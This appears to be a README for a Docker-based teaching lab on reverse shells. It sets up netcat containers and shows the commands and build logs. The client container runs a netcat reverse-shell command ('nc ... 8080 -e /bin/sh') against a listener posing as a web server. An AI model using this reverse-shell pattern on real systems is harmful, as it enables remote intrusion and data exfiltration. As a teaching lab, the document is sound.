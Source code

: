 # Example of reverse shell communication with `netcat`

## What are reverse shells?
[Reverse Shells](http://resources.infosecinstitute.com/icmp-reverse-shell/) like any other shell, execute code on a given machine. The key difference between a reverse shell and a regular remote shell is that communication within a reverse shell flows from the target machine, back to the remote machine.

This behavior is especially attractive to attackers who inject malicous code on target machines behind firewalls. The core idea is that if an attacker can gain access to basic tools like `netcat` on a target machine, potentially any data that the malicous code has access to can be sent out to a remote machine, taking advantage of outgoing ports present in most user-facing network firewalls.

## Example Overview
This example is a collection of [ubuntu](https://hub.docker.com/_/ubuntu/) Docker containers, orchestrated with [docker-compose](https://docs.docker.com/compose/) to illustrate the basic mechanics of reverse-shell communication between a client and a server posing as a web server. The example uses an unencrypted `8080/tcp` connection for easy of development. Stay tuned for an example which takes advatiage of SSL encryption.

```
.
├── client
│   └── Dockerfile
├── develop-net
│   └── Dockerfile
├── docker-compose.yml
└── web
    └── Dockerfile
```

### Build the `develop-net` base image

This image uses `netcat` for implementing the reverse shell, while `telnet` and `iputils-ping` are only installed for purposes like testing connectivity.

```
$ docker build -t infosecrnd/develop-net develop-net/
Sending build context to Docker daemon 2.048 kB
Step 1 : FROM ubuntu
 ---> cf62323fa025
Step 2 : RUN apt-get update && apt-get -y install netcat telnet iputils-ping
 ---> Using cache
 ---> a9414c08589d
Successfully built a9414c08589d
```

### Building and running with `docker-compose`

1. **netcatreverseshell\_web\_1** acts as a "web" server, listening for incomming traffic: `nc -p 8080 -l`.
2. **netcatreverseshell\_client\_1** sends a friendly greeting to the "web" server, including variables from the client's environment: `/bin/sh -c echo ${HOSTNAME}: Hello World`.


```
$ docker-compose up -d --build
Creating network "netcatreverseshell_default" with the default driver
Building web
Step 1 : FROM infosecrnd/develop-net
 ---> a9414c08589d
Step 2 : CMD nc -p 8080 -l
 ---> Using cache
 ---> 9c58d2e05d26
Successfully built 9c58d2e05d26
Building client
Step 1 : FROM infosecrnd/develop-net
 ---> a9414c08589d
Step 2 : CMD nc netcatreverseshell_web_1 8080 -e /bin/sh -c echo ${HOSTNAME}: Hello World
 ---> Using cache
 ---> 702b01ece3b9
Successfully built 702b01ece3b9
Creating netcatreverseshell_web_1
Creating netcatreverseshell_client_1
```


```
$ docker logs netcatreverseshell_web_1 
85e2014c7364: Hello World
```
